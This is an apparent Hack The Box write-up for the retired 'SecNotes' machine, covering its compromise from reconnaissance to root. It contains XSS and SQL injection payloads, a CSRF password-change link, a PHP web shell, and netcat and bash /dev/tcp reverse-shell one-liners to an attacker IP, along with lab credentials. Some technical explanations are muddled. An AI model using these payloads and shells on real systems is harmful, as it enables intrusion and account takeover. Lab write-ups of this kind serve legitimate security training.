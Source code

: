 ```yaml
---
title: "SecNotes HTB"
date: 2024-07-02 21:55:00 +0800
categories: [SecNotes, Medium, HTB-Walkthrough]
tags: [Secnotes, Medium-Windows]
---
```



![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*uMQqZEswmPNsTNV0HSvfeQ.jpeg)
Another Retired Machine in the path of progressing for the OSCP.
Reconnaissance:
** Analyzing Nmap result: ** 
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*7-xk3boB3__EgXJ-XhEisw.png)


we don’t really have that many ports to attack except 80 HTTP, 445 NetBIOS, and 8808 HTTP.

**Enumeration: **
Getting started with our 445 SMB, we don’t really have anything right now. Since an anonymous login is not allowed in this case. enum4linux or smbmap or smbclient. Has no use right now. There seems to be a website running on port 80 http. So, browsing to http://10.10.10.97 would let us redirected to the /login.html.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*g8lFPA7iSX8RMs8sc4HGfw.png)

You can always try default credentials such as admin-password or user-password etc; And then wordlists or some SQL injections for fuzzing.

**Method #1 Cross-Site Request Forgery:
Sign up now button:
**
Since, There is a signup button we can register a user ourselves, and logging in can grant us a new empty user.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*D5CAfSgYo-NocTNKhZBwrA.png)

![Untitled](https://miro.medium.com/v2/resize:fit:828/format:webp/1*uSh7-kTqBN-bTAG1YmmYsw.png)

By understanding these options one by one in hand. can help us understand what type of vulnerabilities were present in the web server manually.

**Create New Note:**

In the view source(Ctrl+U) I’ve seen the Note textarea box has been enclosed by <textarea> HTML tag. So, I’m gonna close it with </textarea> and use our script command. If in this case it doesn’t we will go crafting it further improvising.

For the POC (proof of concept) document.write(document.cookie) inside the <script> tag.


![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*CJjyxFDFxNpMXzOynxv97g.png)

Saving it redirects to the home page. And it’s working. we just discovered an XSS Vulnerability.

![Untitled](https://miro.medium.com/v2/resize:fit:828/format:webp/1*gnskB5H2uS6536RD-GseUA.png)

**Contact Us:**

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*le1FPoxkwUj1Kz2kfwobcg.png)

There is a message box that seems to help us contact Tyler. So, Tyler seems to be an authenticated user. After sending it, it just redirects with a Pop up on the home screen “Message Sent”.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*-q7Ew1mg5OjS_gpG2xq-bA.png)

**Update Password:**

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*7S5oWULpGkAiUSobP8r8tQ.png)

Interestingly, They weren’t asking for the old password while updating the new password. This might help us combine all other functionalities together to get access to Tyler’s user account.

While listening on port 80 with nc -lvnp 80 on our attack machine and sending the message.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*iaZ1F7jqicSC_AUowxCsYw.png)

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*34IzD0zVEAq1KU_zAykDcQ.png)

Gave us info, That there was a connection from port 51601 Windows Powershell from our victim machine. This means the Tyler user is automatically accessing the link.

**Exploitation:**
We this information in hand we can totally compromise the Tyler account😁. How?

Let’s Dive in,

While changing the password if intercept the request.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*By8Kc8kifosZFnuMXsqdbA.png)

Right-click on the code and select the change request method.

![Untitled](https://miro.medium.com/v2/resize:fit:720/format:webp/1*LQynqdDE738QTLLg9ZMnqQ.png)

Since Whatever link is being opened seems to be opened by Tyler. At this point. we could try injecting an HTML payload for a CMD shell.

But our end goal here is to change the password. Based on this burp suite request we can make Tyler open the link to change his own password.

http://10.10.10.97/change_pass.php?password=password&confirm_password=password&submit=submit
http:10.10.14.17

Now, let’s contact Tyler!!

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*J_JKHDcbxRsvC4BldoNiiQ.png)

With that, the password would be changed!!!!

Try logging, in with our new password and this should be working😁.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*moTRdxMzG6qycUZYca4kgw.png)

If this wasn’t working,

![Untitled](https://miro.medium.com/v2/resize:fit:720/format:webp/1*OMtI3QJwLsJGNNIb4M8XPw.gif)

**Method #2: Alternate way [SQL Injection]:**
Since The server is been accessing the different notes with ID, So there should be a database running along with the web server.

Since horizontal access is prevented from accessing the ID of the note. Let’s start enumeration with the register. If we can get some account. The fact that you can create a password for a valid user is possible. Makes this more possible. You can fire up the burp suite and do some brute-forcing with the following SQL Injection list. To find the one that’s working.


![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*UkKAVhHtf3xWkThtfqvaLA.png)

This should be working since Select * from users WHERE “Hello OR 1=1 —

Always comes out to be TRUE.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*j843uD3Rhc8Iiw3nIi6iuw.png)

Where “—” is for commenting out in HTML. This gonna work. Since The web server is vulnerable to SQL Injections.

Logging in with our new credentials should let us access the Tyler User. Since it seemed to be the only other valid user.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*UJaL9Ec_0RBKdgca1WF66A.png)


![Untitled](https://miro.medium.com/v2/resize:fit:458/format:webp/1*_cVkn1dDQ9G8vxRcoaQQZw.gif)


**Getting a Shell:**

Browsing through the notes we can spot there is a sub-directory and the other information looks like it is the username and password.

With all this let’s see if we access the SMB Shares. Since the Anonymous login didn’t work out. This might be our shot.

First, let’s verify that with the smbmap for detailed information on what’s there to come.

smbmap -H 10.10.10.97 -u tyler -p ‘92g!mA8BGjOirkL%OG*&’

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*7kNWAraizpQyKYKt-j26jQ.png)

There is a share we can access here and have read and write permissions. Let’s dive in!!

smbclient \\\\10.10.10.97\\new-site -U tyler

And Enter the password. That lets us to SMB Shell.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*dah9GlSZ1pInMHG_KUCtaw.png)

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*RuShR7o-030g8BmKUPSLlA.png)

The files resemble the iisstart page we got on the port 8808.


![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*k5Wh3709tqjXCRtI2_09dQ.png)

Possibly these web servers are accessing files from these shares.
 
I tried generating a .aspx payload with msfvenom, but it didn’t work out. So, the web server seems to accept only php files. Fortunately for us, PHP files can call system commands, so let us craft a PHP file and upload it.


![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*-EOa-5N9B8I9fsKvzPoUNw.png)

Fortunately for us, PHP files can call system commands, so let us craft a PHP file and upload it.


![Php echo](https://miro.medium.com/v2/resize:fit:640/format:webp/1*XZFdT9lebtp1gd8db9DqqQ.png)

<?php echo “Shell”;system($_GET[‘cmd’]); ?>

[Github Link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/shell.php)

on SMB shell upload this payload using the put command. put shell.php

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*dg9g2vTbb8FmCKCuNOz0NQ.png)

For getting a PowerShell we need a Netcat one-liner to be executed as a command. I’ll show you what I mean.

nc.exe 10.10.14.17 443 -e powershell

you can easily spot the nc.exe file in /usr/share/seclists/Web-Shells/FuzzDB if you’re using Kali Linux.

Be sure to upload Netcat and the payload again(it gets deleted after some time since the server completely blocks it).

![Netcat Listener](https://miro.medium.com/v2/resize:fit:640/format:webp/1*D3u95E29JfaWTwj0YgcG9w.png)

Titidi dididi!! We got our Foothold with the powershell. with the same shell as smb but we have more control now🥳.

![Untitled](https://miro.medium.com/v2/resize:fit:786/format:webp/1*D7lODgpD3Oudgybl7OZVSA.png)

Grab the user flag🤧.

![Wounded Thinking](https://miro.medium.com/v2/resize:fit:640/format:webp/1*dB1Kp6HmPaKpSUuNpM4_pw.png)

![Dinner Ready](https://miro.medium.com/v2/resize:fit:828/format:webp/1*g08G8kcIAiEXVSrbq2Et9w.gif)

Getting a user flag is the hardest part for the Medium machine at Hackthebox.

Now now, Let’s hunt the root flag…😋

![Dinner Ready](https://miro.medium.com/v2/resize:fit:400/format:webp/1*dK8T1Lk88UcvQgPH5N6PIw.gif)

**Privilege Escalation:**
Now, as we have some foothold for the machine.

There is a file check-message.ps1 inside secnotes_contacts dir inside tyler’s directory.

Which has Tyler’s default password: “forested85sunk” which automatically changes every 30 seconds with this script. use these credentials for login, If your tired of using the sql injection or csrf.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*3SKWohUfCZpVlPiijslneg.png)

With Netcat, I couldn’t access or run some basic commands. So, I have decided to upgrade the command shell from Netcat to the Meterpreter shell.

In addition to this, I have uploaded a step-by-step tutorial to upgrade the Netcat shell here.

Let’s browse around to see… what we have right now.

![Untitled](https://miro.medium.com/v2/resize:fit:750/format:webp/1*01-0nsx8VUNnSFASaUu8bQ.png)

There seems to be a bash link file. Which is a good sign, bash files are executed at kernel-level access. Meaning it has root privileges.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*NxA0j_XFGLQGU22GJJ9EUQ.png)

But, When I tried executing it. it is not recognized. Seems like the file has been moved from Windows\System32 to somewhere else.

Let’s search for it.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*9Nx-k_Yw_JuU_zswK-vjhA.png)


Change the directory to that folder, And let’s see if it’s working.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*ZCQQc9EHWGavVNQVpn0vVQ.png)


Just as we thought, It does have the root privileges. So, For this to work, I have searched one-liner for reverse shells using bash wanna Explore-More?.

bash -i >& /dev/tcp/10.10.14.17/443 0>&1

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*z5xgGevy4dymyVCCJHs2Gg.png)

Running this together and listening for this port through Netcat.

bash.exe -c “bash -i >& /dev/tcp/10.10.14.17/443 0>&1”

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*0hUyZD9_tYBt8y8pJA5LwQ.png)

nc -lvnp 443 on our kali machine.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*pTGoxgeBhoC59nMFumKnwQ.png)

We got the Root Shell. Since the desktop runs a WSL we are accessing a Ubuntu machine. The shell is so floppy.

![Untitled](https://miro.medium.com/v2/resize:fit:720/format:webp/1*FzE-mgeoZRWRRRWV9JqLOg.gif)
![Untitled](https://miro.medium.com/v2/resize:fit:538/format:webp/1*5FX-eIboOQj_kRoTLNZFAQ.png)

Normally listing it makes the files hidden. Since, They were created default by bash command as binaries.

So, use ls -alps or ls -al


![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*dTBsI22G2JrQ50YSM9f66A.png)

We can see there is a bash_history file, Looks interesting.

cat bash_history,

![Untitled](https://miro.medium.com/v2/resize:fit:786/format:webp/1*pb2pcblAH974QK04-B2hig.png)

And we have an Administrator and its password in the history🤩🤩!!

Let’s Verify it with smbmap,

smbmap -u ’administrator’ -p ‘u6!4ZwgwOM#^OBf#Nwnh’ -H 10.10.10.97


![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*n1jOLKELEDTk3tVTVS39cg.png)


We have all the privileges C$ and ADMIN$ SMB Share too!!🤧


![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*gBNlydYng8KAKZiH2jdPQA.png)

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*UaLtJf-mFEZHyxQHs3YeIw.png)

Root flag🥳🫡!!!

![Untitled](https://miro.medium.com/v2/resize:fit:720/format:webp/1*6iHLm137BHVEkQLP-kXvKA.gif)

Kanpai
![Untitled](https://miro.medium.com/v2/resize:fit:828/format:webp/1*XMKlLG53vUrAieJP3kMsjw.png)

**In-Summary:**

SecNotes is a medium-difficulty machine that highlights the risks associated with weak password change mechanisms, lack of CSRF protection, and insufficient validation of user input. It also teaches about Windows Subsystem for Linux enumeration.

**Mind Map (Why we are doing, What we are doing?):**
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*exy8kA9eZgVTVRYKu5pBlg.png)


Made with xmind.
Follow me, for more Priv Escalations / Active Directory Concepts!! Thank you for reading :-)